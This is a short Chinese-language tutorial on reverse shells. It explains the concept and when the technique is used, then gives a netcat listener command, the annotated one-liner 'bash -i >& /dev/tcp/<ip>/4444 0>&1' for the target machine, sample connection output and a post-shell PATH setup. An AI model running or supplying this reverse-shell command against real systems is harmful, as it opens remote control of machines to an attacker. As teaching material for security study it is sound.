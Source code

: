# 反弹Shell

**0x00 理解**

> 反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端

使用场景：

- 目标机因防火墙受限，目标机器只能发送请求，不能接收请求。
- 目标机端口被占用。
- 目标机位于局域网，或IP会动态变化，攻击机无法直接连接。
- 目标机随机可能性多，无法掌控



**0x01 过程**

1、攻击者主机开启监听

```shell
nc -lvp 4444
# 参数 l 代表入站，v 代表输出信息级别，p 指定监听的端口
```

2、目标机上运行反弹命令

```shell
bash -i >& /dev/tcp/192.168.112.1/4444 0>&1 

bash -i       # 打开一个交互的bash
>&           # 将标准错误输出合并并重定向到标准输出，也可以写成 &> 

/dev/tcp/192.168.112.1/4444       #意为调用socket,建立socket连接,其中192.168.112.1为要反弹到的主机IP，4444为端口

0>&1          # 标准输入重定向到标准输出，实现你与反弹出来的shell的交互，可以接受用户输入，0>&1 和 0<&1 是相同的作用

# /dev/tcp/ 是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。同理，Linux中还存在/dev/udp/。
```

3、成功后攻击者拿到目标机的shell

```shell
nc -lvp 4444
listening on [any] 4444 ...
connect to [192.168.112.1] from 192.168.112.188 [192.168.112.188] 60436
```

> 用什么权限的用户反弹，就拥有什么用户的权限

4、反弹后

```
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/root/bin
```

